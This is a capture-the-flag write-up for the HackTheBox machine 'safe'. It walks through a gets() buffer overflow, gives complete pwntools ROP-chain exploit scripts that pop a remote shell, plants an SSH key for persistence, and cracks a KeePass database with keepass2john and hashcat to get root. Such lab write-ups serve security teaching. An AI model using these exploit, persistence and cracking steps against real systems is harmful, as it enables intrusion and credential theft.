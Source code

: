 # Hackthebox: safe

## 1. Analysis
At the time of writing, safe is active at `10.10.10.147`. Viewing the page gives the default Apache2 debian page. Nothing is visibly different, but viewing source reveals a comment at the start:
```
<!-- 'myapp' can be downloaded to analyze from here
     its running on port 1337 -->
```

Great, something to target. It's running on port `1337`, and can be downloaded at `10.10.10.147/myapp`. `file myapp` shows it's a 64bit `ELF` executable. The app will first run `/usr/bin/uptime`, and then print `What do you want me to echo back?`. It then waits for user input, uses `gets()` *\*cough*\* **insecure** *\*cough\** to get the user input, prints it to screen, then exits.

Running `echo $(perl -e 'print "A"x150')` gives us a lovely little `Segmentation fault` :). Further testing reveals that it will overwrite rip, and crash, with more than 120 characters. Great, all we need is to throw in some `/bin/sh` shellcode and boom, shell... well, no. Unfortunately the binary has the `NX` bit set, meaning we're limited to ROP gadgets to do our bidding.

Analyzing the disassembly reveals a function called `test`, which is never called:
```x86asm
.text:0000000000401152                 public test
.text:0000000000401152 test            proc near
.text:0000000000401152 ; __unwind {
.text:0000000000401152                 push    rbp
.text:0000000000401153                 mov     rbp, rsp
.text:0000000000401156                 mov     rdi, rsp
.text:0000000000401159                 jmp     r13
.text:0000000000401159 test            endp
```
This is great, specifically the `jmp r13` part of it ;). All we need is a way to control `r13`. Let's see what `ropper` gives us:
```bash
$ ropper -f ./myapp | grep "r13"
0x0000000000401204: pop r12; pop r13; pop r14; pop r15; ret; 
0x0000000000401206: pop r13; pop r14; pop r15; ret; 
0x0000000000401203: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x0000000000401205: pop rsp; pop r13; pop r14; pop r15; ret; 
```
We don't want to touch rsp or rbp, and the first one just makes our payload larger - `0x0000000000401206` is our target. Remember that we can't just place some shellcode and jump to that, instead we'll abuse the use of `system()`, which is at `0x0000000000404060`. `system()` uses rdi for it's argument - a pointer to a string that is the command to be executed... now how would we modify rdi?... Once again, `test` comes to our rescue:
```x86asm
.text:0000000000401156                 mov     rdi, rsp
```
All we need is to place `/bin/sh` at `rsp` when it hits segfault. If we test this, we find out it's 120 characters in. `/bin/sh` is 8 characters, including null-byte (`/bin/sh\x00`), so we need 112 bytes of junk.

## 2. Putting it together:
Recapping the above: we need 112 bytes of junk, followed by `/bin/sh\x00`, then the address of the pop gadget which will be called. The next 3 values will go into `r13`, `r14`, and `r15` respectively. `r13` needs to be the address of `system()`, `r14`, and `r15` are irrelevant, and can be null. Finally comes the address of `test`, where the magic happens. The final payload should look something like this:
```x86asm
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ; junk 
/bin/sh\x00 ; string passed to system()
\x06\x12\x40\x00\x00\x00\x00\x00 ; address of pop gadget
\x40\x10\x40\x00\x00\x00\x00\x00 ; address of system() -> r13
\x00\x00\x00\x00\x00\x00\x00\x00 ; null -> r14
\x00\x00\x00\x00\x00\x00\x00\x00 ; null -> r15
\x52\x11\x40\x00\x00\x00\x00\x00 ; address of test
```
or in python:
```python
from pwn import *

junk = "A"*112
sh = "/bin/sh\x00"
pop = "\x06\x12\x40\x00\x00\x00\x00\x00"
system_r13 = "\x40\x10\x40\x00\x00\x00\x00\x00"
null_r14_r15 = "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
test = "\x52\x11\x40\x00\x00\x00\x00\x00"

payload = junk + sh + pop + system_r13 + null_r14_r15 + test
app = process("./myapp")
app.sendline(payload)
app.interactive()
```
Running this gives us a lovely 
```
$
``` 
:)

## 3. Getting the user flag:
With some simple changes to the exploit, we can remotely exploit it:
```python
from pwn import *

junk = "A"*112
sh = "/bin/sh\x00"
pop = "\x06\x12\x40\x00\x00\x00\x00\x00"
system_r13 = "\x40\x10\x40\x00\x00\x00\x00\x00"
null_r14_r15 = "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
test = "\x52\x11\x40\x00\x00\x00\x00\x00"

payload = junk + sh + pop + system_r13 + null_r14_r15 + test
app = remote("10.10.10.147","1337")
app.sendline(payload)
app.interactive()
```

Running this gives us a shell on the machine. Navigating to `/home/user` gives the user flag, which is... well, you can find out yourself ;). Time for the next step, which is getting the root flag.

## 4. Getting the root flag:
Looking in the user home directory, reveals a few interesting files:
```
$ ls
IMG_0545.JPG
IMG_0546.JPG
IMG_0547.JPG
IMG_0548.JPG
IMG_0552.JPG
IMG_0553.JPG
myapp
MyPasswords.kdbx
user.txt
```

`.kdbx`?! huh? What on earth is that? ~~Googling~~ DuckDuckGo-ing tells us that it's a keepass file. There's also a bunch of photos... could they have something to do with the `.kdbx`? Searching `JPG keepass` on duckduckgo links us to [here](https://keepass.info/help/base/keys.html): "The database can also be locked using a key file. A key file is basically a master password in a file... KeePass can generate key files for you, however you can also use any other, already existing file (like **JPG** image, DOC document, etc.).". [This](https://www.rubydevices.com.au/blog/how-to-hack-keepass) website talks about a tool called `keepass2john` which is used to extract master keys hashes from key files. Great, let's get these files on our local machine. We get our public key from `~/.ssh/id_rsa.pub` on our machine, and `echo` that into `~/.ssh/authorized_keys` on the remote machine:
```
echo "ssh-rsa **key** username@machinename" > .ssh/authorized_keys
```
Now we can use `scp` and `ssh`. For each image, we run `scp user@10.10.10.147:/home/user/IMG_xxx.JPG ./`, followed by `keepass2john -k IMG_xxx.JPG MyPasswords.kbdx`. We now have master password hashes we can crack. `hashcat` has an option for keypass hashes - `-m 13400`. Iterating over all the extracted hashes reveals that the third image (`IMG_0547.JPG`) contains the master password, which is `bullshit`. Using `keepassx`, we can open `MyPasswords.kdbx`, using password `bullshit`. KeePassX shows that there is a password in the db called "Root password". We `ssh` back into the machine (as user), and run `su root`, giving the password we found in the db:
```
user@safe:~$ su root
Password: 
root@safe:/home/user# whoami
root
root@safe:/home/user# cd ~
root@safe:~# ls
root.txt
root@safe:~# cat root.txt
<REDACTED>
```
Machine owned :)
